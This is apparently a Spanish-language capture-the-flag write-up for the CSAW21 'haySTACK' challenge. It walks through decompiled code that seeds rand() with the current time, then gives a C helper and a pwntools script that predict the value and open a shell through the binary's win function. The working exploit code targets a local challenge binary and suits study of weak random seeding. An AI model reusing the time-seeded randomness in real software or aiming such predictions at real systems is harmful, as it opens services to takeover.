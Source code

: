 # haySTACK (CSAW21  - Quals) 

## 1. Analisis

### Main
```
void main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Help! I have lost my favorite needle in one of my 4096 identical haystacks!");
  puts("Unfortunately, I can\'t remember which one. Can you help me??");
  funcion1();
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

### void funcion1(void)
```
{
  long lVar1;
  long in_FS_OFFSET;
  int iterador;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  for (iterador = 0; iterador < 0x100000; iterador = iterador + 1) {
    *(undefined4 *)(&stack0xffffffffffbfffe8 + (long)iterador * 4) = 0xb00;
  }
  funcion2((long)&stack0xffffffffffbfffe8);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
En esta funcion vemos que crea un array de 0x100000 posiciones y las llena con 0xb00, el ultimo if es solo la verificacion del stack canary a lo que no pondremos atención.

### void funcion2(void)
```
void funcion2(long param_1)

{
  int my_number;
  ulong goal;
  long in_FS_OFFSET;
  int contador;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  goal = get_random();
  *(undefined4 *)(param_1 + (long)(int)goal * 4) = 0x1337;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  contador = 0;
  do {
    if (2 < contador) {
LAB_00101429:
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return;
    }
    fwrite("Which haystack do you want to check?\n",1,0x25,stdout);
    fgets((char *)&local_38,0x20,stdin);
    my_number = atoi((char *)&local_38);
    if (my_number < 0x100001) {
      if (my_number == (int)goal) {
        printf("Hey you found a needle! And its number is 0x%08x! That\'s it!\n",
               *(uint *)(param_1 + (long)my_number * 4));
        function_win();
      }
      else {
        printf("Hey, you found a needle, but it\'s number is 0x%08x. I don\'t like that one\n",
               *(uint *)(param_1 + (long)my_number * 4));
        if (contador == 0) {
          puts(
              "Shoot, I forgot to tell you that I hid a needle in every stack. But I only have one favorite needle"
              );
        }
        else {
          if (contador == 1) {
            puts("Did I mention I\'m in a hurry? I need you to find it on your next guess");
          }
        }
      }
    }
    else {
      fwrite("I don\'t have that many haystacks!\n",1,0x22,stdout);
    }
    if (contador == 2) {
      puts("I\'m out of time. Thanks for trying...");
      goto LAB_00101429;
    }
    puts("Let\'s try again!");
    contador = contador + 1;
  } while( true );
}
```

Lo importante en esta funcion es que manda a llamar a get_random la cual devuelve un numero aleatorio y es este numero el que es elegido para seleccionar la posicion en el array donde escribira el valor 0x1337 para que despues tengamos que adivinarla y para lo cual nos da 3 oportunidades, si adivinamos entra a la funcion_win donde manda a llamar una shell. 

### ulong get_random(void)
```
ulong get_random(void)

{
  int iVar1;
  time_t tVar2;
  long in_FS_OFFSET;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  iVar1 = rand();
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return (long)iVar1 % 0x100000 & 0xffffffff;
}

```

Este es el algoritmo que se utiliza para generar el numero aleatorio, el cual vemos que toma como semilla el tiempo y que es generada con srand(), ademas al final le realiza una operación. Esta función la necesitaremos para poder generar el mismo numero aleatorio mas adelante.

### void function_win(void)
```
void function_win(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  system("/bin/sh");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Finalmente la funcion_win que sera ejecutada si adivinamos la posicion en el array y nos regresara una shell.

## 2. Exploit

### random.c
```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int get_random(){
    time_t t = time((time_t *)0x0);
    srand((uint)t);
    return rand() % 0x100000 & 0xffffffff;
}

int main(){
    printf("%d",get_random());
}
```

### exploit.py
```
#!/usr/bin/python3
from pwn import *
import os

elf = context.binary = ELF("haySTACK")
libc = elf.libc
context.log_level = "DEBUG"


gs = '''
break main
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


def intentar(p,payload):
    p.sendline(payload)
    recibido= p.recv()
    return recibido

print(elf.plt)
founded=0
while(True):
    io = start()
    for i in range(0,3):
        print(str(i))
        random_value = os.popen("./random.out").read()
        print("randome_value " ,random_value)
        respuesta=intentar(io,random_value)
        print('respuesta',respuesta)
        if b'That\'s it' in respuesta:
            founded=1
            io.interactive()

    if(founded):
        break 
    io.close()
```